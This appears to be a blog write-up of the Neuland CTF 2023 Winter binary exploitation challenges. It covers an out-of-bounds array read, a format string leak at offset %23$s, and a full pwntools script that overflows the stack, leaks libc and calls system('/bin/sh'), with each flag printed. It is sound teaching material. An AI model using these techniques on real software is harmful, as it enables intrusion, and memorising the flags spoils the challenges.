 ```yaml
---
title: "Neuland CTF 2023 Winter - PWN/Binary Exploitation"
authors: ["Neuland CTF Orga"]
date: 2023-12-09T21:00
published: true
tags:
- ctf
- writeup
- security
- cyber
- cybersecurity
---
```


</br>

Download challenges: [Neuland CTF Repository](https://github.com/neuland-ingolstadt/Neuland-CTF-2023-Winter)

</br>

## Higher and Lower - Easy
*No one has guessed my number yet, maybe you can find another way to get the flag.*

[higher_lower.c](/files/neuland-ctf-12-2023/higher_lower.c)

</br>

The program is the well-known children's game higher or lower. However, as the author teases in the description, there is probably no way to win the game fairly. In the enclosed C code, the flag is initially defined and then referenced in the main. Furthermore, the inefficient design decision was made to use an array to select the numbers. Our guessed number is used as an index for this array, and the respective position is output. Since the flag variable in the stack is right next to the array, and the input is not sanitized, we might have a chance to query the flag above it. Depending on the compiler, we print the segment by calling index *-1* or *11*, which is no longer in the array but outputs the surrounding variables.

</br>

The flag is `nland{practical_application_abandoned}`.

</br>

## Secure4Sure - Easy
*Works as intended?*

[Secure4Sure.c](/files/neuland-ctf-12-2023/Secure4Sure.c)

</br>

We get C code, which appears to be the login for Secure4Sure. The user can enter an access code, and the program compares it with the hardcoded string at the beginning of the program. The user input looks like a suitable attack vector because it is printed later in the program. The fgets() function reads a line of the specified input stream and stores it in the buffer variable. These are the perfect conditions for a format string attack that uses printf() features. For example, the string to be output can be manipulated using special commands such as *%s* or *%d*. `printf("My %s is", name)`. *%s* which expects a string is replaced by the contents of the name variable. Printf() reads the previous address from the stack. So if we typed *printf(%s %s)* we would get the last two strings on the stack. However, if this input is longer than the maximum length defined in fgets(), we get a segment fault. Another string format feature is *%&lt;nth address>$s*, which jumps directly to the specified point in the stack. If we write *%p* as input, the program returns the pointer address. With this address, you can look at the stack and calculate the offset. A more straightforward method that does not require precise knowledge of the stack and how it works is fuzzing. Here, you can try out all offsets until the access code is output. With the locally used compiler, the correct offset was *%23$s*.

![](../src/blog/images/neuland-ctf-12-2023/Secure4Sure.webp)

</br>

The flag is `nland{DIN13432}`.

</br>

## Safe Return - Hard
Author: [Jonny](https://github.com/Baikuya)</br>

*There is always a safe place to return :).*

[Safe_Return.c](/files/neuland-ctf-12-2023/Safe_Return.c)

</br>

```
from pwn import *

p = process("./Safe_Return")
write_addr = 0x08049291
puts_addr = 0x08049245
hello_addr = 0x0804a008
got_read = 0x0804c004
p.send(b"A"*0x34)
p.recvuntil(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
p.recv(4)
ebp_bytes = p.recv(4)
ebp = u32(ebp_bytes)
print(hex(ebp))
safe_function = 0x080491b6
ret_nop=0x080491e4
p.recvuntil(b"\n")
payload = b"A"*0x48+p32(ebp)+p32(puts_addr)+p32(got_read)+p32(0)*2+p32(safe_function)
payload += b"A"*(0x80-len(payload))

p.send(payload)
read_leak = u32(p.clean(timeout=1)[:4])
read_offset = 0x0011e0a0
print(hex(read_leak))
libc_base = read_leak-read_offset
print(hex(libc_base))

system = libc_base + 0x0004f600
payload = b"A"*0x48+p32(ebp)+p32(system)+p32(0)+p32(ebp+20)+b"/bin/sh\x00"
payload += b"A"*(0x80-len(payload))
p.send(payload)

p.interactive()
```

</br>

The flag is `nland{G0_TO_J0NNy_And_Say_KinkoFe}`.
